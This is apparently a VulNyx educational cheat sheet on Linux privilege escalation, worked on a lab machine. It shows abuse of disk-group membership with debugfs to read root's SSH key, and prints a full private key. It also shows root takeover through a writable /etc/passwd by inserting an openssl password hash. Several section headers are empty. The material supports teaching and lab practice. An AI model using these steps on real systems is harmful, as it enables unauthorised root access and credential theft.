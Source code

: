 ```yaml
---
title: 🐧 Privilege Escalation (Linux)
date: 0003-01-01
layout: post
---
```


### Groups

#### disk

When a user is part of a `disk` **group**, he or she is granted direct access to the system disks and partitions.

**Check Group**

```ruby
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),6(disk)
```

**Abuse Group**

```ruby
low@vulnyx:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            480M     0  480M   0% /dev
tmpfs            99M  3.2M   96M   4% /run
/dev/sda1        11G  2.2G  8.1G  21% /
tmpfs           494M     0  494M   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           494M     0  494M   0% /sys/fs/cgroup
tmpfs            99M     0   99M   0% /run/user/1000
```
```ruby
low@vulnyx:~$ /usr/sbin/debugfs /dev/sda1
debugfs 1.44.5 (15-Dec-2018)
debugfs:  ls /root
debugfs:  ls /root/.ssh/
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAstkGmc1W+epM0w13VQrLO/wMNWwxFltotpa9elYJVXSlBc+PgF6I
vnpxKBu/BFHAogrQt/i7MI3+64POT6X8nVWokKi9raRlaSFl2k8373C+lLyzt/JewfThUl
VQINQ33vGIemNAbvJkqmMveAthMFEnAnNCnB6jct/Mhr74LjWgmX47tjrTxh3rdUF3SyVV
J6HJMX015n+1md/zGX6CcjqaZGdCi5WY6xJHFkpp9yyszID8fmouUnQOq66C52Dbv5QNxV
H8wSpH0HfTP3lqqMiXga8kUQGrHkfzmDT66wpTT6xvEHEa6zApu1PrDiW5K3EGhpTR/ylm
GhcjB2iDrwAAA8CEFaHVhBWh1QAAAAdzc2gtcnNhAAABAQCy2QaZzVb56kzTDXdVCss7/A
w1bDEWW2i2lr16VglVdKUFz4+AXoi+enEoG78EUcCiCtC3+Lswjf7rg85PpfydVaiQqL2t
pGVpIWXaTzfvcL6UvLO38l7B9OFSVVAg1Dfe8Yh6Y0Bu8mSqYy94C2EwUScCc0KcHqNy38
yGvvguNaCZfju2OtPGHet1QXdLJVUnockxfTXmf7WZ3/MZfoJyOppkZ0KLlZjrEkcWSmn3
LKzMgPx+ai5SdA6rroLnYNu/lA3FUfzBKkfQd9M/eWqoyJeBryRRAaseR/OYNPrrClNPrG
8QcRrrMCm7U+sOJbkrcQaGlNH/KWYaFyMHaIOvAAAAAwEAAQAAAQBFdRunJ6Qbsu7bGGO7
11FOnnhvVvFJaX6lSq2TkU5WrdJZC18Dz7LzpsHDfeMVXlqdk+2zRRoNpVfXR30cWa5dvC
KW67GeejYYOixAOHvUtciOIyr4yVwbn2rSeud/mGuKXetO/LTNYb3Onm6VBHZeOWYZAYJg
91UrC9d2jTv9VZer6rtGJJKVdO8XrVgrciQU2GQgk0bBhcxXV4XOC7wYsoIdEuvkQG53Wu
PZmbU0uoIE6MSVtm3dct7uEt190KAkUNxKOflDmWUgjcyKODeQj/pwUgRaXzNTRaa+tuBU
9I0YwCS+LKt+KvyxO5DrbBDs5egoR3Pdz+Btcivn2i2hAAAAgCYIx3jhzhe5gwS5MnB6yW
LlszD7QWvNm+hhoO8NqIhCEOPRMwMN7fNJ3ACfkh4Tin1YObuUba8Ekn3cJSCt7fZ9Rh4k
tNsRoTZL6Az78gyAq2+OpZYQfLhxSDeypBRcih2ysvuXXZRVk1CEFe1XqNSn4wE82knfk/
qAGo5gPpwiAAAAgQDnpzswlg0aC/RfTdrGh9HuHc8fJQUgBbt3ofKz+ulOKSnnmlfDasK9
ATzM2Ee7HOmV0xXaAaXDsRXkgjoSQow9QWhDiLpR5eRbjjXEY3xcTpqQA1yNNqLkJmA1yP
QnRSJDbLQspSdlC6YDzHa0FcwkK14b0IN2AM7+APXsAQ2MywAAAIEAxaUIB8cQoUkdEeGD
QdVyjBpQQrjARPt5tmnTm1tmJpobkrpmTw7/VDYFUnJ/k7YYiUfsqyw7RJJQPYtnNTanBB
IYohf/jZd0WBAEsTzmtYLHcjo+ln7gMDtyKVj+SqhkXDHaeOkzpW4Ev5RB+clZLRwrAWuu
gaN4ZcqmaVXfzC0AAAALcm9vdEBzYXRvcmk=
-----END OPENSSH PRIVATE KEY-----
```

#### adm

#### docker

#### lxd

#### fail2ban

#### video

---

### /etc/passwd (Writable)

If a low-privileged user has permissions to write to the `/etc/passwd` file, an attacker can remove the `:x:` (on the `root` user line) and add a **hash**.  
This will change the file where a user's authentication is performed, from being done through the `/etc/shadow` file to being done through the `/etc/passwd` file.

##### Check Permissions

```ruby
low@vulnyx:~$ ls -l /etc/passwd
-rw----rw- 1 root root 1395 abr 21 20:16 /etc/passwd
```

##### Create Hash

```ruby
root@kali:~# openssl passwd -1 "P@ssword123"
$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0
```

##### Add Hash

```ruby
# before
low@vulnyx:~$ cat /etc/passwd |grep root
root:x:0:0:root:/root:/bin/bash

# after
low@vulnyx:~$ cat /etc/passwd |grep root
root:$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0:0:0:root:/root:/bin/bash
```

##### Authenticate

```ruby
low@vulnyx:~$ su -
Password:

root@vulnyx:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

---

#### Disclaimer

> ##### WARNING
> All techniques presented in this blog are for educational and ethical purposes.  
> The [VulNyx](https://vulnyx.com) team is not responsible for any misuse or damage caused to third party systems or infrastructure.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
